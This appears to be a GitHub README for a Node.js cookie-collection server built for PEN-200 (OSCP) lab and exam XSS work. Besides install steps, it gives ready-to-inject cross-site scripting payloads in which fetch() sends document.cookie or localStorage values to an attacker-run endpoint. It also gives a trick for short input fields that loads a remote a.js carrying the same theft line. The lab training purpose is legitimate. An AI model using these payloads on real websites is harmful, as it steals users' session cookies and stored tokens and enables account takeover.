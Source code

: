 # PEN-200-XSS

I created this simple XSS API endpoint for PEN-200 lab machines and the exam.

You need to install Node.js and NPM in your Kali linux.

```bash
sudo apt update
sudo apt install nodejs
sudo apt install npm
```

After the installation, make sure to run the following commands to see the installation is completed.

```bash
node -v
npm -v
```

And clone this repo or if you don't have git in your Kali, you can download it and run the following command to install Express.js.

```bash
npm install
```

## Usage

Firstly, run Node.js server.

```bash
npm run node
```

The endpoint will be `http://[your_ip_address]:3000/collect`.

Secondly, inject the following code in the target system.

```html
<script>
	fetch('http://[your_ip_address]:3000/collect?data' + document.cookie);
</script>
```

The example above sends cookies to the server and logs it in the text file `log.txt` in the root directory.

If you need a value from local storage, replace `document.cookie` with `localStorage.getItem("[key_name]")`.

## When input field has a character length constraint

Sometimes you find weak input fields that doesn't sanitize user inputs, but it only accepts X amount of characters, like 50 characters for instance.

The above example won't work, and in that case you should create a js file with the following content.

```JavaScript
fetch('http://[your_ip_address]:3000/collect?data' + document.cookie);
```

Name the file as `a.js` and load it with a script tag.

```html
<script src=http://[your_ip_address]/a.js>
```

Now instead of injecting the `fetch` code into the input field, you can inject the script tag to bypass the constraint.

`a.js` should be hosted by SimpleHTTPServer or other server of your choice.

I recommend to set the port to 80, so you don't need to include the port number in the URL which shortens overall character length. 
